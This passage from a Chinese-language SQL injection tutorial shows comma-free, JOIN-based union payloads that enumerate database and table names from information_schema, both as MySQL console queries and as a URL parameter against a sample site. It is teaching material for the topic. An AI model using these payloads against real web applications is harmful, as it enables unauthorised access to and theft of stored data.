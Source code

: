 


```plain
# 二库
mysql> select * from test where id=-1 union select * from (
    (select schema_name from information_schema.schemata limit 1 offset 1)A join 
    (select 2)B join 
    (select 3)C join (select 4)D
);

+-------+------+------+---------+
| id    | test | map  | content |
+-------+------+------+---------+
| 74cms | 2    | 3    | 4       |
+-------+------+------+---------+
1 row in set (0.00 sec)
```



# 0x07 爆表名



注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



web语句: http://www.test.com/sql.php?id= -1 union select * from (

 (select table_name from information_schema.tables where table_schema=DATABASE() limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

);



数据库语句: select  *from test where id=-1 union select*  from (

 (select table_name from information_schema.tables where table_schema=DATABASE() limit 1 offset 0)A join

 (select 2)B join

 (select 3)C join

 (select 4)D

);
